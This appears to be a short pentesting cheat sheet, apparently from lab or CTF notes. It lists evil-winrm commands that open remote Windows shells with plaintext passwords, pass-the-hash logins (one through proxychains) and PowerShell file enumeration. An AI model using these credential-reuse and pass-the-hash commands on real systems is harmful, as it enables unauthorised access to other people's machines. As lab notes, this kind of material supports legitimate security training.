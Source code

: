 ```
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>
```

```
proxychains evil-winrm -i $IP -u $username -H $NTLMhash
```

```
evil-winrm -i <remoteIP> -u 'username' -p 'password'
```

```
gci -recurse .
```

```
gci -hidden
```

```
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```

**NTLM hash** --> LMhash:NThash

```
evil-winrm -i 172.31.3.6 -u administrator -H NThash
```
